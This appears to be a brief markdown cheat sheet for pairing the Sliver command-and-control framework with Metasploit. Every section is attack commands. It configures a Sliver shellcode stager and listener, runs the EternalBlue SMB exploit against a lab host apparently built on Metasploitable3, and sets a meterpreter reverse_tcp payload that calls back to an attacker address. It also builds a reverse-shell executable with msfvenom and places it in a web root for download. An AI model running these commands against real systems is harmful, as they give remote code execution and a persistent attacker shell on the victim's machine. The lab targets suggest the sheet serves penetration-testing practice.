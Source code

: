 # Sliver

## Set Up Sliver Stager - [Source](https://github.com/BishopFox/sliver/wiki/Stagers#example)
```
profiles new --profile-name win-shellcode --mtls 10.0.1.88 --format shellcode
stage-listener --url tcp://10.0.1.88:1234 --profile win-shellcode
# launch an mtls job for the final session
mtls
```

## EternalBlue
```
use exploit/windows/smb/ms17_010_eternalblue
# Metasploitable3 host
set RHOSTS 10.0.1.30 
```

## Payload Settings for Stager
```
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.1.88
set LPORT 1234
# this one is important so it doesn't try to launch another listener on the port we're already listening on!
set DisablePayloadHandler true 
```

## Manual stager running
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.1.88 LPORT=1234 -f exe -o /var/www/html/tcp-stager.exe
```